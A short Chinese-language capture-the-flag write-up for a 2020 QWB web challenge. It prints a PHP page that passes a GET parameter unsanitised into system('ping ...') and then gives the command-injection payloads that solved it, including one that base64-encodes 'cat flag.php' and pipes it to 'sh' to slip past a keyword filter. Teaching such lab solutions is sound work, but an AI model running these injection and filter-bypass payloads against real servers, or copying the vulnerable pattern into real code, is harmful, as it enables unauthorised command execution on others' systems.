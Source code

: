 ```yaml
---
title: Web - 主动
description: 强网杯-2020-强网先锋
---
```


## 解题思路

- 首页给出了网站的源码，仅过滤变量`ip`中的关键词`flag`，可以利用`system`函数执行命令<br>
    ```php
    <?php
    highlight_file("index.php");
    if(preg_match("/flag/i", $_GET["ip"]))
    {
        die("no flag");
    }
    system("ping -c 3 $_GET[ip]");
    ?>
    ```
- `http://39.96.23.228:10002?ip=|ls .`查看当前目录，发现`flag.php`<br>
![发现 flag 文件](img/initiative01.jpg)
- 使用 Base64 编码绕过，`http://39.96.23.228:10002?ip=| echo Y2F0IGZsYWcucGhw | base64 -d | sh`，由于`highlight_file`函数的影响，未直接在网页上显示，可用查看器查看<br>
![获得 Flag](img/initiative02.jpg)